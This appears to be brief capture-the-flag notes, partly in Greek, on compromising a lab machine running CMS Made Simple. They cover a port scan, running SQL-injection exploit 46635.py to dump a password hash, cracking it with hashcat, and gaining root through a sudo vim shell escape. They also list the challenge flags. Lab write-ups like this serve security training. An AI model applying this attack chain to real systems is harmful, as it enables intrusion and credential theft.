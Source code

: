 <pre>
Machine IP: 10.10.71.115

Enum:
    Open Ports:
        21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu)) -> CMS Made Simple vuln
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel



searchsploit CMS Made Simple

CMS Made Simple < 2.2.10 - SQL Injection     
| exploits/php/webapps/46635.py

Mirror the exploit:

searchsploit -m exploits/php/webapps/46635.py python3 fixes errors 
An dn trexei kante edit ta print mesa sto script kai valte “()”

python3 46635.py -u http://10.10.71.115/simple/ -w /wordlist/path/rockyou.txt

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96

Twra thelei na kanoyme crack to hash
echo “0c01f4468bd75d7a84c7eb73846e8d96” > hash.txt

hashcat -m 0 hashes /usr/share/wordlists/rockyou.txt

Pwd:secret
User flag : G00d j0b, keep up!
Root flag : W3ll d0n3. You made it!

$ id 
uid=1001(mitch) gid=1001(mitch) groups=1001(mitch)

$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim

sudo vim /usr/bin/vim

And type ‘shift :!sh ’ and got root :DD
# id
uid=0(root) gid=0(root) groups=0(root)
</pre> 
